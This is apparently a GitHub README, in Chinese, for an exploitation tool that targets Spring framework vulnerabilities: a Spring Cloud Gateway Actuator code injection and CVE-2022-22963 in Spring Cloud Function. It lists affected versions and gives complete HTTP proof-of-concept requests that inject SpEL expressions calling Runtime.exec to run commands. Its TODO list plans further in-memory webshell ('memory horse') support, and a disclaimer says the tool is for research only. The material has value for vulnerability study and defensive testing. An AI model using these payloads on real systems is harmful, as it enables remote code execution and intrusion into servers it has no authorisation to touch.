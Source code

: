 <h1 align="center" >Spring_All_Reachable</h1>
<h3 align="center" >一款针对Spring漏洞框架进行快速利用的图形化工具</h3>
 <p align="center">
    <a href="https://github.com/savior-only/Spring_All_Reachable"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Spring_All_Reachable" src="https://img.shields.io/badge/Spring_All_Reachable-green"></a>
    <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Forks" src="https://img.shields.io/github/forks/savior-only/Spring_All_Reachable"></a>
     <a href="https://github.com/savior-only/Spring_All_Reachable"><img alt="Release" src="https://img.shields.io/github/release/savior-only/Spring_All_Reachable.svg"></a>
  <a href="https://github.comsavior-only/Spring_All_Reachable"><img alt="Stars" src="https://img.shields.io/github/stars/savior-only/Spring_All_Reachable.svg?style=social&label=Stars"></a>
     <a href="https://github.com/savior-only"><img alt="Follower" src="https://img.shields.io/github/followers/savior-only.svg?style=social&label=Follow"></a>
     <a href="https://github.com/savior-only"><img alt="Visitor" src="https://visitor-badge.laobi.icu/badge?page_id=savior-only.Spring_All_Reachable"></a>
	</p>





# 📝 TODO

* Spring Core RCE
* 支持更多类型内存马
* 支持内存马密码修改

........



# :clapper:使用方法

### Spring Cloud Gateway命令执行（Spring_All_Reachable）

#### 漏洞描述

Spring Cloud Gateway存在远程代码执行漏洞，该漏洞是发生在Spring Cloud Gateway应用程序的Actuator端点，其在启用、公开和不安全的情 况下容易受到代码注入的攻击。攻击者可利用该漏洞通过恶意创建允许在远程主机上执行任意远程请求。


#### 漏洞影响

​	VMWare Spring Cloud GateWay 3.1.0  
​	VMWare Spring Cloud GateWay >=3.0.0，<=3.0.6  
​	VMWare Spring Cloud GateWay <3.0.0

#### 漏洞poc

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

#### 工具使用

![image-20230601131042060](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20230601131042060.png)

![image-20230601131127171](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20230601131127171.png)

![image-20230601134110151](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20230601134110151.png)





### Spring Cloud Function SpEL 远程代码执行 (CVE-2022-22963)

#### 漏洞描述

Spring Cloud Function 是Spring cloud中的serverless框架。

Spring Cloud Function 中的 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成 Spel 表达式注入漏洞。

攻击者可通过该漏洞执行任意代码。

#### 漏洞影响

org.springframework.cloud:spring-cloud-function-context（影响版本：3.0.0.RELEASE~3.2.2）

#### 漏洞poc

```
POST /functionRouter HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
Content-Type: text/plain
Content-Length: 4

test
```

#### 工具使用

![image-20230601130120697](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20230601130120697.png)

![image-20230601130234458](C:\Users\admin\AppData\Roaming\Typora\typora-user-images\image-20230601130234458.png)





# :book: 参考项目

https://starchart.cc/0x727/SpringBootExploit

https://github.com/whwlsfb/Spring_All_Reachable-godzilla-memshell





# :b:免责声明

​	此工具仅作为网络安全攻防研究交流，请使用者遵照网络安全法合理使用！ 如果使用者使用该工具出现非法攻击等违法行为，与本作者无关！



![as](https://starchart.cc/savior-only/Spring_All_Reachable.svg)
